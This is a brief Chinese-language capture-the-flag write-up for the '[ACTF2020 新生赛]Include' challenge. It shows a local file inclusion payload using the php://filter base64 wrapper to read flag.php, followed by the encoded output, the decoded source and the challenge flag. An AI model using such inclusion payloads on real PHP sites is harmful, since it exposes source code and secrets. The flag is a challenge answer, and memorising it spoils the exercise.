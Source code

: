 ```yaml
---
title: '[ACTF2020 新生赛]Include'
date: '2025-05-09T21:01:06+08:00'
weight: 
draft: false
description: '[ACTF2020 新生赛]Include'
---
```


检查页面元素发现提示：`<body><a href="?file=flag.php">tips</a></body>`

利用 **任意文件包含漏洞** 和 **php 伪协议** 读取 `flag.php

```text
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

进行 base64 解码，获得 `flag`：`flag{56a53bc6-5778-4ddb-bde2-a8a73ab475ad}`

```text
PD9waHAKZWNobyAiQ2FuIHlvdSBmaW5kIG91dCB0aGUgZmxhZz8iOwovL2ZsYWd7NTZhNTNiYzYtNTc3OC00ZGRiLWJkZTItYThhNzNhYjQ3NWFkfQo=
```

```php
<?php
echo "Can you find out the flag?";
//flag{56a53bc6-5778-4ddb-bde2-a8a73ab475ad}
```